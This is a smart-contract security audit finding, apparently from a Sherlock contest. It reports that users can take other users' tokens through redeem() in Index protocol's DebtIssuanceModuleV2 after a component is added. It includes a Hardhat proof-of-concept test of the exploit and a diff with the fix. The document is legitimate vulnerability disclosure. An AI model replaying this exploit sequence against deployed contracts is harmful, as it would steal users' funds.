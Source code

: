 Inspex

medium

# User can steal tokens of the `SetToken` contract via the `redeem()` function in the `DebtIssuanceModuleV2` contract

## Summary
The new component can be added as the collateral token. This will create an opportunity to steal the tokens of other users by calling the `redeem()` function after the new component has been added and other users call the `issue()` function after that.

## Vulnerability Detail
The user can borrow the asset via the `issue()` function by transferring the required component tokens as collateral to exchange for the desired borrow token.

https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModuleV2.sol#L75-L126

However, when the user wants to retrieve the collateral, the `redeem()` function will be called to repay and transfer the collateral, depending on the components in the SetToken contract.

https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModuleV2.sol#L142-L190

https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModule.sol#L502

https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModule.sol#L566-L569

If components are added and the `manager` has arbitrarily added a position after a user calls the `issue()` function, and another user has also called `issue()` subsequently, the first user could call the `redeem()` function to obtain the added component as additional collateral.

The proof of concept is as follows:
```typescript
it("adding component after issue, then redeem it after", async () => {
  ///// Step 0: setup 
  subjectQuantity = ether(100);
  await token1.connect(owner.wallet).transfer(alice.address, ether(1000));
  await token2.connect(owner.wallet).transfer(alice.address, ether(1000));
  await token1.connect(owner.wallet).transfer(bob.address, ether(1000));

  await token1.connect(owner.wallet).transfer(debtModule.address, ether(1000));
  await token2.connect(owner.wallet).transfer(debtModule.address, ether(1000));

  await setup.dai.transfer(debtModule.address, ether(1000));
  await setup.dai.transfer(alice.address, ether(1));///for paying fee

  //// Before Exploit
  let token1Balance = await token1.balanceOf(bob.address);
  let token2Balance = await token2.balanceOf(bob.address)
  let daiBalance = await setup.dai.balanceOf(bob.address)

  expect(token1Balance).to.eq(ether(1000));
  expect(token2Balance).to.eq(ether(0));
  expect(daiBalance).to.eq(ether(0));

  /// Step 1: subjectCaller start issuing
  [neededComponents, neededEquityUnits, neededDebtUnits] = await debtIssuance.getRequiredComponentIssuanceUnits(subjectSetToken, subjectQuantity);
  neededWithFee = neededEquityUnits[0].mul(1005).div(1000);
  token1.connect(bob.wallet).approve(debtIssuance.address, neededWithFee);
  await debtIssuance.connect(bob.wallet).issue(
    subjectSetToken,
    subjectQuantity,
    bob.address,
  );

  /// Step 2: manager module add token2 component
  await setToken.connect(manager.wallet).addComponent(token2.address);
  await setToken.connect(manager.wallet).addExternalPositionModule(token2.address, debtModule.address);
  await setToken.connect(manager.wallet).editDefaultPositionUnit(token2.address, ether(1));

  //// Step 3: 
  [neededComponents, neededEquityUnits, neededDebtUnits] = await debtIssuance.getRequiredComponentIssuanceUnits(subjectSetToken, subjectQuantity);
  neededWithFee = neededEquityUnits[0].mul(1005).div(1000);
  token1.connect(alice.wallet).approve(debtIssuance.address, neededWithFee);
  neededWithFee = neededEquityUnits[2].mul(1005).div(1000);
  token2.connect(alice.wallet).approve(debtIssuance.address, neededWithFee);
  await debtIssuance.connect(alice.wallet).issue(
    subjectSetToken,
    subjectQuantity,
    alice.address,
  );

  //// Step 4: 
  [neededComponents, neededEquityUnits, neededDebtUnits] = await debtIssuance.getRequiredComponentRedemptionUnits(subjectSetToken, subjectQuantity);
  neededWithFee = neededDebtUnits[1].mul(1005).div(1000);
  setup.dai.connect(bob.wallet).approve(debtIssuance.address, neededWithFee);
  await debtIssuance.connect(bob.wallet).redeem(
    subjectSetToken,
    subjectQuantity,
    bob.address,
  );

  //// After Exploit
  token1Balance = await token1.balanceOf(bob.address);
  token2Balance = await token2.balanceOf(bob.address)
  daiBalance = await setup.dai.balanceOf(bob.address)

  expect(token1Balance).to.eq(ether(999));
  expect(token2Balance).to.eq(ether(99.5));
  expect(daiBalance).to.eq(ether(1));
});
```
## Impact
The attacker can steal other users' tokens by calling the `redeem()` function after the new component has been added and another user calls the `issue()` function after that.

## Code Snippet
https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModuleV2.sol#L75-L126

https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModuleV2.sol#L142-L190

https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModule.sol#L502

https://github.com/sherlock-audit/2023-05-Index/blob/main/index-protocol/contracts/protocol/modules/v1/DebtIssuanceModule.sol#L566-L569

## Tool used

Manual Review

## Recommendation
We recommend adding validation before adding the new component in the `addComponent()` function in the SetToken contract, for example.

```diff
function addComponent(address _component) external onlyModule whenLockedOnlyLocker {
    require(!isComponent(_component), "Must not be component");
+   require(totalSupply() == 0, "SetToken must not be minted");
    components.push(_component);

    emit ComponentAdded(_component);
}
```
